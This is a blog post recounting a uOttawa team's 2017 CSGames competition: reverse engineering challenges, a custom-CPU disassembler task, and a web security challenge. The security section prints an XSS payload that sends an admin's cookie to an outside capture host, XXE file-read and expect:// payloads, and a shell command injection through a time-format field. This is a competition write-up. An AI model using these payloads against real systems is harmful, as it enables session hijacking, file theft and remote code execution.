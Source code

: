 title: "CSGames - uOttawa 2nd Place!"
disqusIdentifier: 0000000013
keywords:
- competition
- CSGames
- security
- hacking
categories:
- events
tags:
- competition
- CSGames
- security
- hacking
thumbnailImage: https://images.fletchto99.com/blog/2017/april/csgames/thumbnail.png
date: 2017/4/10
---

A few weeks ago I got to participate in the 2017 edition of CSGames on the uOttawa Series A team. We managed to place second overall!

<!-- excerpt -->
{% image center clear https://images.fletchto99.com/blog/2017/april/csgames/banner.png %}

A few weeks ago I got to participate in the 2017 edition of CSGames on the uOttawa Series A team. We managed to place second overall! For those of you who are unfamiliar [CSGames](http://csgames.org/) is an annual coding competition which consists of many computer science related challenges. Universities across Canada (and some from the states) are allowed send up to 2 teams of 10 students to compete. The competition takes place over three days in which there are multiple challenges that contribute towards your team's overall score. Challenges usually consist of 2 team members sharing one computer and working together to come up with a solution. For a full list of the challenges from this year see the [2017 CSGames website](http://2017.csgames.org/#Competitions). Katherine was my partner in crime for the weekend since we both chose to work on the three security related challenges: Reverse Engineering, CSE, and Security.

{% image fancybox center clear https://images.fletchto99.com/blog/2017/april/csgames/1.jpg "Most of the participants in CSGames 2017" %}

# Reverse Challenge: Day 0x1

Upon arrival on friday night Katherine and I competed in our first challenge which was Reverse Engineering. The reverse engineering challenge had 3 questions, two which required reversing a binary file and the third was an encryption algorithm to which the key being used was lost. The first binary was a file server where the documentation was lost. The goal was to determine the credentials used and then create a client to interact with the server. While we were unable to create a fully working client we identified the credentials & commands the server accepted. If you attempted to patch the binary it would start printing errors saying "SRC GUARD 2017".

Next was the encryption algorithm with the lost key. The key was actually a png file however the algorithm only looked at the first few bytes of the file which actually means it was just constants within the PNG header to encrypt the file thus any PNG image could be used to decrypt it. Katherine and I actually never looked at this one since we were too focused on the other ones, one of my the Seed Round members told me how they solved this challenge afterwords. In hindsight I wish we took some time to look at this since it was easy points instead of just focusing on the other ones which were worth more points.

Finally the last and hardest question was to patch a password manager to spit out the password being stored. After initial inspection the password seemed to be printed when the manager was running on a specific hostname & after a specific time. We managed to patch the app however it printed out "cheater" since our patch didn't fully work. Katherine and I ended up placing 9th in this challenge which was to be expected since we didn't make that much progress.

# CSE Reverse challenge: Day 0x2

The next morning Katherine and I had the CSE challenge. The CSE challenge was essentially another reverse engineering challenge, only this time much more complex. For this challenge we were given 3 documents. The first was piece of paper a little larger than the size of a poster containing a bunch of a gates (upon further reading it was the instruction decoder for a custom CPU). The second was a high level diagram of the instruction decoder. Finally the last one was a "top secret" document containing the challenge. To go with all of this we were given an unknown ELF file.

By connecting the dots from the provided information Katherine and I realized that the elf file, after the 4096 bytes of the elf header, was a bunch of machine code containing instructions for this custom CPU. Our first goal was to create a disassembler to help us understand what was going on in this unknown binary. To build the disassembler we needed to manually trace which bits are active for each instruction in the CPU and then map that to the hex value specified by the machine code. This took much longer than expected however we did get a disassembler working!

After creating the disassembler it appeared to be crashing at an instruction which was not a part of the CPU instruction decoder spec and unfortunately we couldn't figure out why this was the case. After the competition was over I asked why and it turns out that the binary was actually storing an encrypted x86 binary within. The goal after a working disassembler was to decrypt the stored x86 binary and figure out what that binary was doing however we didn't make it that far.

Katherine and I were extremely happy with our progress in this challenge placing 4th. It was by far my favourite of the three challenges I participated in and I learned the most from it. This challenge (finally!) actually made use of something I learned in school. Analyzing a binary for an unknown architecture was kind of fun because there wasn't any plug and go solution or any tool that could give us the answer. We were required to do all of the work manually.

{% image fancybox fig-50 left https://images.fletchto99.com/blog/2017/april/csgames/2.jpg "CPU instruction decoder poster" %}
{% image fancybox fig-50 right https://images.fletchto99.com/blog/2017/april/csgames/3.jpg "Disassembler almost done!" %}

# Security Challenge: Day 0x3

The next morning was the [security challenge](https://github.com/ldionmarcil/CSG2017-security), my chance to shine! The premise of this challenge was to find vulnerabilities in a service called "What Time is it as a Service" or wtiiaas for short. I started off with a simple dirb which revealed a directory called `/old/` which shouldn't have been publicly accessible. In that directory there was an encrypted passwords file for an employee account along with the weak xor algorithm used. Essentially we just had to apply the xor algorithm on the file again to decrypt it. After that we were able to login to the employee portal. Once logged in there was a messaging system and an admin who would "respond right away" which was a clear indication of XSS. After a simple `<img src=x onerror=this.src='requestb.in/secret?cookie='+document.cookie />` we were able to dump the admin cookie and steal her session to get the next flag. This was as far as the admin system went so we had to find another target.

Our next target was the wtiiaas API. The API had 2 models: a free model which enabled the developer to send some XML with a free API key to request the current time and a premium model to request the current time with a specific format, however this required a premium API key. After few minutes it appeared that the free API was vulnerable to two attacks. The first being an XSS attack enabling me to exfiltrate files and the second was a SQL injection in the key parameter. Using the XSS I was able to dump the `/etc/passwd` file but not the `/etc/shadow/` file. However I was able to dump the entire API file by file to base64 using a payload similar to `<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/index.php" >]>` and then just following the system paths for the includes within the API.

The final part challenge was to get remote code execution on the server. My first thought was to just use an xxe to take control of the system via a crafted entity containing `[<!ENTITY foo SYSTEM "expect://<command>">]` however after multiple failed attempted I realized that the `expect://` command was disabled. So my next guess was that it had something to do with the API... and I was right! By dumping the API files earlier I was able to inspect the source and realize that the time was being retrieved using something like `exec('date')` within PHP. However the premium API allowed you to request a specific time format so it looked more like `echo "<response>".exec('/bin/sh -c \'date +"'.$format.'"\' 2>&1')."</response>";`. As you can see the format variable is being used so let's look at that: `$format = xml_attribute($action,"format");`. Thus the format variable is being retrieved directly from the XML, so a payload using the premium API could be crafted to execute arbitrary commands by inserting something like `%hh%mm%ss' && <command>` where <command> is the command you wish to run. After injection the API would even be kind enough to return the results to us. Unfortunately I didn't manage to dump the premium API key I was unable to exploit this vuln. It turns out getting the premium API key was done via a blind SQL injection in the user-agent header since there was a custom logging API which used this field. I never looked at the `logging.php` file even though I had dumped it...

Overall Katherine and I placed 6th in this challenge however I was quite disappointed with my performance in the securit challenge. I spent too much time trying to get RCE via `expect://` only to realize it was disabled. I also missed a simple SQL injection which could have gotten us quite a few more points. On top of that there was a [theoretical component](https://github.com/ldionmarcil/CSG2017-security/blob/master/Security-theoretical-EN.pdf) to which I only got 24.5 out of the possible 30 points. I did really poor on the theoretical security portion which is something I will be sure to practice more for next year.

# Results

What an awesome weekend! I learned so much about reverse engineering, patching binaries and analyzing unknown files. Unfortunately after all of our efforts Katherine and I didn't place top 3 for any of our individual challenges however Series A (the team we were on) ended up placing 2nd Overall! Originally we had placed 3rd during the competition but due to an error marking we were bumped up to second (0.03% behind first!). We ended up taking home a total of 8 medals this year across the two teams! I can't wait for next year when uOttawa will hopefully bring home the CS Cup! For the results of this year's CSGames you can checkout the [scoreboard](http://scoreboard.csgames.org) on the CSGames website. Oh also _note to self_: BRING SOME DRESS CLOTHING FOR THE BANQUET NEXT YEAR!

{% image fancybox center clear https://images.fletchto99.com/blog/2017/april/csgames/4.jpg "Receiving the 3rd place overall (later it was realized we got 2nd!)" %}

<!-- more -->